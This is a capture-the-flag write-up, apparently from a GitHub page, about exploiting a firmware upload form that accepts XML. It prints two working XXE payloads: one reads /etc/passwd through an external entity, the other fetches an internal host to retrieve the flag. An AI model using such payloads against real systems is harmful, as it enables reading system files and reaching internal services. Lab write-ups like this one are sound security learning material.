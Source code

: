 You are given a page where you can upload firmware to some docker containers.
When you clock on the "Upload Firmware" button, you are able to upload XML firmware to that container.
And here we are , the first thing that came to my mind is to test if there is an XXE so
tried to read the "passwd" file and yes ! it works ! we have an XXE injection !
code to read /etc/passwd


<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>

So now we have to look for the flag location ! i tried /home/flag.txt and /flag.txt but i didn't find nothing  ! 
after that i noticed that we have an open port 80 in traffic-light-1004 
So tried to acces it with : 

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://traffic-light-1004/"> ]>
<root>
  <content>&xxe;</content>
</root>

And Boooom !! we got our Flag 

Flag: flag{shh_im_mining_bitcoin}


